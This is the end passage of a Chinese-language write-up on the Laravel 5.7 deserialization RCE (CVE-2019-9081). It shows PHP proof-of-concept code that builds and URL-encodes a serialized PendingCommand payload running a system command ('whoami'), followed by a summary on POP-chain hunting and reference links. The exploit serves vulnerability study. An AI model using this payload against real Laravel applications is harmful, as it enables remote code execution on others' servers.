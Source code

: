 ```
        public function __construct($instances = [])
        {
            $this->instances['Illuminate\Contracts\Console\Kernel'] = $instances;
        }
    }
}

namespace {
    $defaultgenerator = new Faker\DefaultGenerator(array("DawnT0wn" => "1"));
    $app = new Illuminate\Foundation\Application();
    $application = new Illuminate\Foundation\Application($app);
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand($defaultgenerator, $application, "system", array("whoami"));
    echo urlencode(serialize($pendingcommand));
}
```

![image-20211125211918619](images/24.png)

# 总结

laravel5.7的链子肯定是不止这一条的,例如https://xz.aliyun.com/t/9478这篇文章里面有几条链是在laravel5.4到5.8是通杀的,还有H3师傅总结的https://www.anquanke.com/post/id/258264链子,这里有10多条,里面有好几条也是可以通杀的,所以这里只分析了5.7最典型的一条链子

这条链子和以往的复现不太一样,对POP挖掘思路有很大的影响,可以明白在POP链挖掘的时候依次打断点去单步调试最后找到一条完整的链子,而不是每次去看到师傅的POC复现,这能让自己明白如何去寻找一条完整的POP链



参考链接

[laravelv5.7反序列化rce(CVE-2019-9081) | WisdomTree's Blog (laworigin.github.io)](https://laworigin.github.io/2019/02/21/laravelv5-7反序列化rce/)

https://xz.aliyun.com/t/8359#toc-6

https://blog.csdn.net/rfrder/article/details/113826483
